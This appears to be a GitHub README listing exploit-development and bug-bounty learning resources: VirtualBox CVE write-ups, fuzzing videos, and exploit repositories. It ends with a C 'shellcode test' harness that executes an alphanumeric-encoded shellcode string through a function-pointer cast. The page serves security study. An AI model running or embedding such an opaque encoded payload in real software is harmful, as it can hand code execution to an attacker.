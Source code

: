 # Exploit-Application
- Questions
  * Begin analysis CVE Linux app service ?
  * Beginner to Advanced Bug Bounty Hunting Course ?
- References:
  * [CVE-Virtual Box](https://qriousec.github.io/post/vbox-pwn2own-2023/) .
  * https://starlabs.sg/blog/2020/04-adventures-in-hypervisor-oracle-virtualbox-research/ .
- Video
  * [HackSploit](https://www.youtube.com/watch?v=6PrC4z4tPB0&list=RDCMUC0ZTPkdxlAKf-V33tqXwi3Q&start_radio=1) .
  * https://www.youtube.com/watch?v=SwoN9aanH1E&list=PLZptvBlvUP8qLZRmbcEqc5LExliRb41iy
- Automatic Bounty
  * [Fuzzing](https://www.youtube.com/watch?v=QNksAVtOT4A&list=PLILVcu1djxZ371NYWjUryog0myJxRRWxQ) .
  * [libFuzzer](https://www.youtube.com/playlist?list=PL8XzbUzym18bRZnmKHzWrS99U3TqHzP-L) .
  * [Serius nói chuyện về Bug HUnter](https://www.youtube.com/playlist?list=PL7642iyielOziwBisTcqEvmTm6aAJWnDa) .
  * https://www.youtube.com/watch?v=oeEEZWI3cfM
- CVE train exploit github:
    * https://github.com/SadFud/Exploits
    * https://github.com/hongphipham95/Vulnerabilities
    * https://github.com/antonio-morales/Fuzzing101
    * https://github.com/qazbnm456/awesome-cve-poc
    * https://github.com/sagishahar/lpeworkshop
    * Tools Binary DiffApp

- Shellcode Test
```c
int main()
{
    char shellcode[] = "PYj0X40PPPPQPaJRX4Dj0YIIIII0DN0RX502A05r9sOPTY01A01RX500D05cFZBPTY01SX540D05ZFXbPTYA01A01SX50A005XnRYPSX5AA005nnCXPSX5AA005plbXPTYA01Tx";
    (*(void (*)())shellcode)();
}
```
